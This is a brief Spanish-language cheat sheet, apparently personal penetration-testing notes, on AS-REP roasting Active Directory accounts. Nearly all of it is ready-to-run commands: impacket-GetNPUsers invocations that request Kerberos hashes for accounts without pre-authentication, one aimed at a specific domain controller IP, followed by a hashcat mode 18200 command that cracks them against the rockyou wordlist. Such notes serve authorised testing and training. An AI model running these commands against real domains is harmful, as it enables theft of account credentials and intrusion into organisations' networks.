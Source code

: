# ASREProstable 

Tags: #AD #ASREProstable #Impacket #Kali #Parrot #HashCat 

## Explotar con Impacket

```bash 
❯ impacket-GetNPUsers -no-pass -usersfile users.txt domain.corp/        # Ataque usando un lista de usuarios 

❯ impacket-GetNPUsers 'domain1.corp/user' -no-pass -dc-ip 18.116.10.36 -request

	# domain1.corp/user = Usuario vulnerable o lista de usuarios 
	# no-pass = No hay una contraseña 
	# dc-ip = Ip del DC

Notas:
	1. Tener la IP con el dominio en '/etc/hosts'
```

## Crackear el Hash obtenido 

```bash 
# Guardar y crackear el hash con 'Hashcat'
❯ hashcat -m 18200 --force hashes.asreproast /usr/share/wordlists/rockyou.txt

	# m = Método por fuerza bruta
	# 18200 = Es un ASREProstable
	# hashes.asreproast = Archivo que contiene el hash 
	# rockyou = Diccionario a usar 
```